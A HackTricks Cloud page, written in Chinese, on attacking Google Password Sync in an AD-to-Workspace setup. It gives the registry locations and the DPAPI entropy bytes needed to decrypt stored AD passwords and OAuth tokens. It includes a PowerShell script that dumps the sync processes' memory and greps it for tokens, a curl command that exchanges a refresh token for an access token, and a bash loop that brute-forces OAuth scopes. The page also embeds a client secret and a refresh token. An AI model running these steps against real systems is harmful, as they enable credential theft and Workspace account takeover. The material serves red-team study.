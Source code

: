 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

这是谷歌提供的二进制文件和服务，用于**保持用户在AD和Workspace之间的密码同步**。每当用户在AD中更改密码时，它会被设置到谷歌。

它安装在`C:\Program Files\Google\Password Sync`，您可以在此找到用于配置的二进制文件`PasswordSync.exe`和持续运行的服务`password_sync_service.exe`。

### GPS - 配置

要配置此二进制文件（和服务），需要**授予其对Workspace中超级管理员主体的访问权限**：

* 通过**OAuth**登录谷歌，然后它会**在注册表中存储一个令牌（加密）**
* 仅在具有GUI的域控制器上可用
* 提供一些具有**管理Workspace用户**权限的GCP的**服务账户凭据**（json文件）
* 非常糟糕的主意，因为这些凭据永远不会过期，可能会被滥用
* 非常糟糕的主意是给予SA对workspace的访问权限，因为SA可能在GCP中被攻破，并且可能会转向Workspace
* 谷歌要求在没有GUI的域控制下使用
* 这些凭据也存储在注册表中

关于AD，可以指示它使用当前的**应用程序上下文、匿名或某些特定凭据**。如果选择凭据选项，**用户名**将存储在**磁盘**中的一个文件内，**密码**是**加密**并存储在**注册表**中。

### GPS - 从磁盘转储密码和令牌

{% hint style="success" %}
请注意，[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)能够检测**GPS**，获取有关配置的信息，甚至**解密密码和令牌**。
{% endhint %}

在文件**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**中，可以找到部分配置，例如配置的AD的**`baseDN`**和正在使用的**`username`**。

在注册表**`HKLM\Software\Google\Google Apps Password Sync`**中，可以找到**加密的刷新令牌**和AD用户的**加密密码**（如果有）。此外，如果使用的是某些**SA凭据**而不是令牌，也可以在该注册表地址中找到这些加密的凭据。该注册表中的**值**仅对**管理员**可访问。

加密的**密码**（如果有）在键**`ADPassword`**中，并使用**`CryptProtectData`** API进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用**`CryptUnprotectData`**时使用此**熵**：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

加密的令牌（如果有）在键**`AuthToken`**中，并使用**`CryptProtectData`** API进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用**`CryptUnprotectData`**时使用此**熵**：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
此外，它还使用字典**`0123456789abcdefghijklmnopqrstv`**进行base32hex编码。

熵值是通过使用该工具找到的。它被配置为监视对**`CryptUnprotectData`**和**`CryptProtectData`**的调用，然后该工具被用来启动和监视`PasswordSync.exe`，该工具将在开始时解密配置的密码和身份验证令牌，并将**显示用于两种情况的熵值**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

请注意，也可以在对这些API的调用的输入或输出中看到**解密**的值（以防某个时刻Winpeas停止工作）。

如果密码同步是**使用SA凭据配置的**，它也将存储在注册表**`HKLM\Software\Google\Google Apps Password Sync`**中的键内。

### GPS - 从内存转储令牌

与GCPW一样，可以转储`PasswordSync.exe`和`password_sync_service.exe`进程的内存，您将能够找到刷新和访问令牌（如果它们已经生成）。\
我想您也可以找到配置的AD凭据。

<details>

<summary>转储 <code>PasswordSync.exe</code> 和 <code>password_sync_service.exe</code> 进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 从刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求**由您生成访问令牌的应用程序支持的范围**。

此外，刷新令牌在每个应用程序中都不是有效的。
{% endhint %}

默认情况下，GPS不会以用户身份访问所有可能的OAuth范围，因此我们可以使用以下脚本找到可以与`refresh_token`一起使用以生成`access_token`的范围：

<details>

<summary>Bash脚本以暴力破解范围</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在写作时得到的输出：
```
https://www.googleapis.com/auth/admin.directory.user
```
哪一个是你在不指明任何范围时获得的。

{% hint style="danger" %}
使用此范围，您可以**修改现有用户的密码以提升权限**。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
